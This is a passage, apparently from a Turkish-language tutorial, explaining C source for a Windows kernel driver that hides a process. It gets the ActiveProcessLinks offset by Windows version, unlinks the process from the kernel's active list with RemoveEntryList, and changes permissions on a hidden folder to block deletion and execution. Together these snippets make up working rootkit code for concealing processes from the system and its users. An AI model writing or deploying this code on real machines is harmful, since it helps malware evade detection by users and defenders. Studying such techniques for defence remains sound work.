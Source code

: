 ```c
	}

	return 0;
}
```

Bu fonksiyonda ise işletim sisteminin sürümüne göre ActiveProcessLink yapısının offset değerini alıyoruz. Bu offset değeri, işletim sisteminin sürümüne göre değişiklik gösterebildiği için farklı Windows sürümüne göre alınmasını sağlar. 

Normalde bu kullandığım yöntem çok sağlıklı olmayacaktır. Çünkü Windows güncellemeleri ile birlikte bu offset değerleri değişebilir ancak şuanlık 0x448 offset değeri windows 10 ve 11 sürümlerinde işe yarıyor. Diğerleri ise windows 7 ve 8 sürümlerine aittir.

Bu fonksiyonda ise öncelikle offset değeri bulmak için oluşturduğumuz **GetWindowsVersion** fonksiyonunu çağırıyoruz ve windows sürümünü alıyoruz. Ardından alınan değerlerle birlikte offset değerini return ediyoruz.

```c
Offset = GetActiveProcessLinkOffset();
if (0 == Offset) {
	return STATUS_NOT_SUPPORTED;
}
ActiveProcessLink = (PLIST_ENTRY)((PUCHAR)Process + Offset);

RemoveEntryList(ActiveProcessLink);

return STATUS_SUCCESS;
```

**HideProcess** fonksiyonunun devamında ise ActiveProcessLink'in offset değerini aldıktan sonra RemoveEntryList ile bu Process'i listeden siliyoruz. 

```c
Status = SetFolderPermissions(G_ExecutablePath, DELETE | FILE_EXECUTE);
if (!NT_SUCCESS(Status)) {
	Irp->IoStatus.Status = Status;
	Irp->IoStatus.Information = 0;
	break;
}
```

IOCTL_HIDE_PROCESS'ın son kısmında **SetFolderPermissions** fonksiyonu çağırılmaktadır. Bu fonksiyon, oluşturulan gizli klasörün yetkilerini değiştirmek için kullanılacaktır. Özellikle bu fonksiyona verilen parametrelere dikkat edin, G_ExecutablePath değişkeni yetkisi değiştirilmesi istenen dosyayı temsil ederken, DELETE | FILE_EXECUTE parametreleri ise hangi işlemlerin engelleneceğini belirtiliyoruz.

```c
NTSTATUS SetFolderPermissions(UNICODE_STRING ImagePath, ACCESS_MASK CurrentAccessMask) {
	...
	KernelAddress = GetKernelBase();
	if (NULL == KernelAddress) {
		DbgPrintEx(0, 0, "[-] Failed to Get Kernel Base Address!\n");
		return STATUS_UNSUCCESSFUL;
	}
	DbgPrintEx(0, 0, "[+] Kernel Base Address: 0x%p\n", KernelAddress);
```
